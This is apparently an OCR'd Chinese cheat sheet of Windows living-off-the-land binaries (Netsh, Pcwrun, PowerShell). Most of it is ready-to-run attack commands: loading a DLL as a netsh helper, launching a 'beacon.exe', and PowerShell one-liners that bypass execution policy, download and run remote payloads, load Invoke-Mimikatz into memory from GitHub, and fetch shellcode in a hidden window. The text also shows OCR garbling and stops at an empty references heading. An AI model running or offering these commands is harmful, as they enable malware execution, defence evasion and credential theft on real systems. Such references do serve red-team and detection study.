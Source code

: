 Netsh.exe 是一个管理员可以用来在命令提示符处配置并监视基于 Windows 的计算机的工具。使用 Netsh.exe 工具，可以将输入的上下文命令定向到适当的帮助器，然后帮助器将执行命令。帮助器是个动态链接库 (.dll) 文件，它通过提供配置、监视和支持一种或多种服务、实用工具或协议，来扩展 Netsh.exe 工具的功能。

文件路径:
```
C:\WINDOWS\System32\Netsh.exe
C:\WINDOWS\SysWOW64\Netsh.exe
```
- 执行方式：
```
netsh.exe add helper C:\Users\User\file.dll
```
- 参考资料：
```
https://freddiebarrsmith.com/trix/trix.html
https://htmlpreview.github.io/?https://github.com/MatthewDemaske/blogbackup/blob/master/netshell.html
https://liberty-shell.com/sec/2018/07/28/netshlep/
```
## Pcwrun.exe
- 使用说明：

程序兼容性疑难解答调用程序。

文件路径:
```
C:\Windows\System32\pcwrun.exe
```
- 执行方式：
```
Pcwrun.exe c:\temp\beacon.exe
```
- 参考资料：
```
https://twitter.com/pabraeken/status/991335019833708544
```
## Powershell.exe
- 使用说明：

Windows PowerShell 旨在改进命令行和脚本环境。PowerShell以.NET Framework为平台，接收和返回.NET对象，此举为管理和配置微软系统带来了新的方法和工具。

文件路径：
```
64位版本：C：\ Windows \ System32 \ WindowsPowerShell \ v1.0
32位版本：C：\ Windows \ SysWOW64 \ WindowsPowerShell \ v1.0
```
- 执行方式：
```
a)、powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://x/1.jpg‘,'C:\Users\x\Desktop\test\12.exe')
b)、powershell (Invoke-WebRequest http://x/1.jpg -O x.jpg)
c)、也可以通过从UVC读取脚本执行：
powershell -exec bypass -f \\webdavserver\a.ps1
d)、内存加载：
1、powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz

2、powershell -exec bypass -c "iwr https://gist.githubusercontent.com/Urahara3389/d83b6f9ccedf9aa53f70d987360dbc0e/raw/53ad790f87e0fd2c9449d5359358cd251c39297a/calc.ps1|iex"

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('cs shellcode address'))"
```
- 参考资料：
